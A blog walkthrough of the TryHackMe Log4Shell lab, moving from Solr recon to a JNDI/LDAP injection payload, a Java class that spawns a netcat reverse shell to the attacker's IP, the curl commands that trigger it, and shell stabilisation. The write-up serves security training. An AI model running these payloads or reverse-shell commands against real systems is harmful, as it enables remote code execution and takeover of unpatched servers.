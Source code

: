 ```yaml
---
layout: post
title: Log4Shell
subtitle: CVE-Score - 10.0
cover-img: /assets/img/Log4Shell/cover.png
thumbnail-img: /assets/img/Log4Shell/logo.png
share-img: /assets/img/Log4Shell/logo.png
tags: [THM, steganography, root, hydra, ftp]
---
```


This blog post is a walkthrough of the room Log4Shell on TryHackMe

### Info about Log4Shell

![Machine Info](/assets/img/Log4Shell/active.png)

Lets start with some recon!

~~~
nmap -v 10.10.89.188
~~~

The prompt tells us to look beyond the common ports and to find out what is running on port 8983 so

~~~
nmap -sV -p 8983 10.10.89.188
~~~

![Nmap](/assets/img/Log4Shell/nmap.png)

We find that port 8983 is running Apache Solr 8.11.0

Opening the website on web-browser. We see a webpage with solr Admin status, here we can see the version number and other variables that the server uses. 

[!First Page](/assets/img/Log4Shell/page1.png)

Here we can find the argument set for the variable -Dsolr.log.dir which should be the directory where all the logs are stored.

Next we can download some sample logs from the room and go through them. We have to find the file which has numerous entries for **INFO**  

![solr](/assets/img/Log4Shell/solr.png)

Next we have to find an endpoint that has been indicated multiple times in the logs and also find a field name that can be changed by the user.

In the POC section the workings and vulnerability of Log4shell is explained, in my words I believe that the /admin/cores endpoint that has the variable params is exploited and commands are sent to the server from here.

The base payload used is - 

~~~
${jndi:ldap://ATTACKERCONTROLLEDHOST}
~~~

Where **jndi** stands for Java Naming and directory interface, this is used to access external resources on the server.
**ldap://** schema indicates that target will reach out to the attacker controlled location via this protocol.

Next we start a netcat listener on port 9999 and send a curl request to the host.

~~~
curl 'http://10.10.89.188:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.249.176:9999\}' 
~~~

We get a connection back but its not a working shell as this was just a POC to show that call-back is possible!

![FTP](/assets/img/Log4Shell/call-back.png)

We will now make use of an attacking server so that we can load actual commands once the connection is done.

Follow the commands to get the Java version and marshalsec utility.

Next we will create the java payload

~~~
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.249.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
~~~

Next we compile it with java 8 and the host it on a server using python3

~~~
┌──(cabba㉿kali)-[~/Desktop/THM/Log4Shell]
└─$ javac Exploit.java -source 8 -target 8
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(cabba㉿kali)-[~/Desktop/THM/Log4Shell]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

~~~

Next we set up a netcat listener on port 9999

~~~
nc -lvnp 9999
~~~


And now finally we launch the payload 

~~~
curl 'http://10.10.89.188:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.249.176:1389/Exploit\}'
~~~

After a few seconds we get a response on the netcat listener

Using python3 to get a stable shell

~~~
python3 -c "import pty; pty.spawn('/bin/bash')"
~~~

After this we see that we have sudo access on the machine so we reset the passwd for usr solr and then ssh on it.

For further mitigation - 

username - vagrant passwd - vagrant


![Done](/assets/img/Log4Shell/done.png)
